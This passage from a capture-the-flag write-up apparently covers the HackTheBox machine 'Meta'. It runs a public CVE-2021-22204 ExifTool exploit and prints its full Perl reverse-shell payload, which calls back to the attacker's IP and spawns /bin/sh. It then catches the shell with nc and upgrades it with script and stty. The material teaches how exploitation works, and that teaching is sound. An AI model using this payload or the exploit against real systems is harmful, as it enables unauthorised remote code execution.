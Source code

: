 Running that, it is using a Perl reverse shell (which makes sense, given it’s a command injection in Perl, so I can count on Perl being installed):

```

oxdf@hacky$ python /opt/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py -s 10.10.14.6 443

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('10.10.14.6')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
DEPENDS: Dependencies for exploit are met!
PREPARE: Payload written to file!
PREPARE: Payload file compressed!
PREPARE: DjVu file created!
PREPARE: JPEG image created/processed!
PREPARE: Exiftool config written to file!
EXPLOIT: Payload injected into image!
CLEANUP: Old file artifacts deleted!
SUCCESS: Exploit image written to "image.jpg"

```

I’ll start `nc` listening on 443, and upload this new image. The site hangs, but there’s a shell at `nc`:

```

oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.140 60630
/bin/sh: 0: can't access tty; job control turned off
$ 

```

I’ll upgrade my shell using `script` and `stty`:

```

$ script /dev/null -c bash
Script started, file is /dev/null
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ 

```
